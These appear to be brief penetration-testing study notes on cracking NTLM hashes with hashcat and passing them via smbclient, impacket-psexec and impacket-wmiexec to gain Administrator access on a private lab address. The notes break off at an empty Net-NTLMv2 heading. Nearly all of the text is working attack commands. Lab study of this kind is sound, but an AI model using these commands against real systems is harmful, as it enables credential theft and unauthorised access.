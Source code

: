 ### Cracking NTLM

extract ntlm hash using mimkatz
crack with hashcat
hashcat -m 1000 steve.hash rockyou.txt -r rules\best64.rule --force

### Passing NTLM

smbclient
crackmapexec
psexec
wmiexec

smbclient \\\\192.168.221.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.221.212


impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.221.212

### Cracking Net-NTLMv2

